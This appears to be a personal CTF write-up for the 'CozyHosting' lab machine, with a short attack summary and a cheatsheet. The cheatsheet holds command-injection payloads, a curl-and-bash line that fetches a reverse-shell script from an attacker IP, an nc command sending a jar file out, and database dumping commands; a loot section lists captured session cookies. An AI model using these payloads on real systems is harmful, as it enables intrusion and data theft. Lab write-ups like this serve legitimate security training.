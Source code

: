# CozyHosting \[Linux Easy]

## Report

An HTTP website has an error message which indicates it was deployed under Spring Boot. Upon bruting more info on endpoints using a specific Spring Boot wordlist, we find one 'actuator'. This is basically an API used for debugging and the endpoint 'sessions' reveals the cookie for the user 'kanderson'. This user has access to the admin panel which has two fields 'username' and 'hostname' used to perform an SSH command that is vulnerable to command injection. Get a reverse shell and find a jar file running which contains creds to a PostgreSQL server. Fetch creds for user 'josh'.

Josh can perform ssh as sudo, get root

## Cheatsheet

```
hi;${IFS}id
0xdf;{id};

0xdf;{ping,-c,1,10.10.14.23};#

host=d&username=0xdf;curl${IFS}http://10.10.14.23/rev.sh${IFS}-o${IFS}/tmp/rev.sh
host=d&username=0xdf;bash${IFS}/tmp/rev.sh

0xdf;{bash,/tmp/rev.sh};#

grep -r password . 2>/dev/null
psql -U postgres -h localhost
\list
\dt
\d users [listing schema for table users]
select * from users;

the curly brace expansion didnt work to launch the shell but worked to ping
transfer file and unzip didnt work - had to do it on system : End-of-central-directory signature not found.


nc -nlvp 1234 > cloudhosting-0.0.1.jar
cat cloudhosting-0.0.1.jar | nc 10.10.14.23 1234

```

## Loot

### Creds

```
36A3B91D16974AEFD327507FEAEC57D6	"kanderson"
5A20AB1A2278205C635B18B2CECDED18	"kanderson"
```

### Proof

